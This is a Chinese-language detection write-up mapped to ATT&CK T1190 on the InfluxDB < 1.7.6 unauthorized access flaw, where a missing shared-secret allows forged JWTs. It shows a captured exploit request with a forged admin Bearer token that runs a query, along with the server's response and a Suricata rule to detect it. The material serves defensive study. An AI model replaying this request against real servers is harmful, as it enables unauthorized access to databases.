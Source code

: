 # T1190-Influxdb<1.7.6未授权访问漏洞

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

InfluxDB是一个使用Go语言编写的开源分布式，支持高并发的时序数据库，其使用JWT作为鉴权方式。在用户开启了认证，但未设置参数shared-secret的情况下，JWT的认证密钥为空字符串，此时攻击者可以伪造任意用户身份在InfluxDB中执行SQL语句。

影响版本：Influxdb < 1.7.6

## 检测日志

HTTP

## 测试复现

具体测试过程请参考：<https://blog.csdn.net/weixin_43416469/article/details/113843301>

## 测试留痕

```yml
POST /query HTTP/1.1
Host: 10.7.2.106:8086
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNjE2MjM5MDIyfQ.9ZTT-ppj20hPXZaUoSxTWf0Mei-idhAU2FaoaQgJJm8
Accept-Language: zh-CN,zh;q=0.9,be;q=0.8
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 26

db=sample&q=show+users

HTTP/1.1 200 OK
Content-Encoding: gzip
Content-Type: application/json
Request-Id: 19c6cf88-1a5b-11eb-800c-000000000000
X-Influxdb-Build: OSS
X-Influxdb-Version: 1.6.6
X-Request-Id: 19c6cf88-1a5b-11eb-800c-000000000000
Date: Fri, 30 Oct 2020 02:53:34 GMT
Connection: close
Transfer-Encoding: chunked

69
..........,.=
. .D...So..^E$H.BP...Fr.`....{.....!N.e....Z...e....h...pe.!.^......*~.L.S..~w......8..c...
0
```

## 检测规则/思路

### Suricata规则

```s
alert http any any -> any any (msg:"Influxdb<1.7.6未授权访问";flow:established,to_server;content:"POST";http_method;content:"/query";http_uri;content:"db=sample&q=show+users";http_client_body;reference:url,blog.csdn.net/weixin_43416469/article/details/113843301;classtype:web-application-attck;sid:3002021;rev:1;)
```

### 建议

流量+安全设备较容易检测到此攻击行为。

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

influxdb未授权访问漏洞

<https://blog.csdn.net/weixin_43416469/article/details/113843301>
